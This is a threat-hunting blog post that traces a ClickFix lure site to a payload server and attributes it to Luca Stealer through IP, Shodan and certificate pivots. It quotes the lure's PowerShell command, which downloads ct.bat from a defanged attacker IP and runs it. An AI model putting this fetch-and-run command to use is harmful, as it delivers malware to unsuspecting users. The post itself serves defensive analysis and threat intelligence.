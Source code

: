 ```yaml
---
layout: post
title:  "Comp'd Domain? Threat actor attribution?"
date:   2025-09-09 21:00:00 +1000
categories: hunting
---
```


<style>
  body { font-size: 16px; }
  body {font-family: 'Inter', sans-serif}
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

## Overview

Grabbed a Clickfix IOC from Validin, following the breadcrumbs to see if I can attribute it to an adversary/malware strain.

Going to through out all IOCs and stuff because why not.

### Website serving Clickfix

"quirkyrealty[.]com"

Resolves to an Indian IP. Hosted by 'Web Werks India Pvt. Ltd. was an Indian data center and cloud solutions provider'
![alt text](/images/india_resolved.PNG)

Google dork see what we can get. Looks like a legit business? Well a not very legit one. 
![alt text](/images/quirky_google.PNG)

Booting up my VM to hit the website to see how this is being served.

![alt text](/images/landing_page.PNG)

Alright few points here from the screenshot above.
- No redirects/iframes/weird JS
- Malicious JavaScript exists within the first HTTP request to the domain
- Payload command written in cleartext (whoop whoop)
- Can see a juicy IP and the file 'ct.bat' that is downloaded from there.

Here is the malicious .JS that copies the command to the user's clipboard
- Uses document.execCommand
![alt text](/images/malicious_js.PNG)

Website is likely full comp'd or not legit in the first place.

Here is the full command from the ``command`` variable in the .JS
```const command = `powershell -c "Invoke-WebRequest -Uri 'hXXp://80[.]253[.]249[.]186:5504/ct.bat' -OutFile \"%temp%\ct.bat\" -UseBasicParsing; Start-Process \"%temp%\ct.bat\""`;```

### .Bat? 

```const command = `powershell -c "Invoke-WebRequest -Uri 'hXXp://80[.]253[.]249[.]186:5504/ct.bat' -OutFile \"%temp%\ct.bat\" -UseBasicParsing; Start-Process \"%temp%\ct.bat\""`;```

This is our payload command. Lets remove 'Start-Process', the const declaration and run it in my VM to save the file in temp.

```Invoke-WebRequest -Uri "hXXp://80[.]253[.]249[.]186:5504/ct.bat" -OutFile "C:\Users\ronald\Desktop\NewClicky\safe-file.txt"``

Alright well this is depressing. The file doesn't live on the web server anymore.

![alt text](/images/file_down.PNG)

So lets see what I can figure out about this IP then...

### IP? What are you...

We can see that 'ct.bat' is being served from the IP 80[.]253[.]249[.]186 at port 5504. 

Quick DNSLytics lookup.
![alt text](/images/clickfix_payload_ip.PNG)

What services are running on the IP?

![alt text](/images/shodan_result.PNG)

Fair few... that RCE CVE is juicy...

Anyhow, interesting that we can't see port 5504 here. Because that is the port that historically served 'ct.bat'

Hunt.io states it was last seen on the 9th of September. So I am one day late to the party. 

![alt text](/images/hunt.io_result.PNG)

Without any HTTP response body we can't do much else. Historical data is dry for this port on Censys, Validin and huntio.

For pivoting I'll look into RDP (3389)

A popular pivot from here is the SSL cert SHA_256 hash. Usually you would have to run an OpenSSL command to calculate this. But Validin has already calculated it for us.

![alt text](/images/validin_sha_256.PNG)

Now when we search this hash we have another IP.

![alt text](/images/validin_sha_result.PNG)

Snazzy. This gives us very high confidence they're related as they use the same RDP SSL cert!

Alright, when I whack this IP into VT I get some cool results.

![alt text](/images/VT_result.PNG)

We can see in the communicating files are Luca_Stealer. Specifically a Cobalt Strike beacon used for Luca Stealer. Assumely as a persistence method after exfilitration of initial data.

So, if I had to take an educated guess. I'd say our IP 80[.]253[.]249[.]186 serves the first stage payload for Luca Stealer.